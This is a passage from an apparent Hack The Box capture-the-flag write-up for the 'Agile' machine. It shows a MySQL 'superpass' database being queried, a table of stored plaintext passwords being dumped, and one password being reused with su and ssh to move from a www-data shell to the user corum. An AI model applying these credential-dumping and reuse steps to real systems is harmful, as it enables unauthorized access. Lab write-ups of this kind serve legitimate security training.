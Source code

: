 Navigating the SQL is rather easy since there isn't much information. The only unique database is `superpass`, and only 2 tables exist:
```
mysql> show tables;
+---------------------+
| Tables_in_superpass |
+---------------------+
| passwords           |
| users               |
+---------------------+
2 rows in set (0.00 sec)

mysql> select * from passwords;
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
| id | created_date        | last_updated_data   | url            | username | password             | user_id |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
|  3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
|  4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
|  6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
|  7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |
|  8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
| 10 | 2023-08-03 15:36:53 | 2023-08-03 15:36:53 |                |          | 7bbe46f078cc431df0c8 |      11 |
+----+---------------------+---------------------+----------------+----------+----------------------+---------+
6 rows in set (0.00 sec)
```

Recall that on this machine, we saw a user named `corum`? Perhaps the 'agile' url password is referring to this machine. When checking with `su`, we see a success.

```
(venv) www-data@agile:/app$ su corum
Password: 
corum@agile:/app$
```

As great as the stabilized reverse shell is, I happily move to an ssh connection from this point, as port 22 was confirmed open.
```bash
$ ssh corum@superpass.htb
corum@superpass.htb's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
```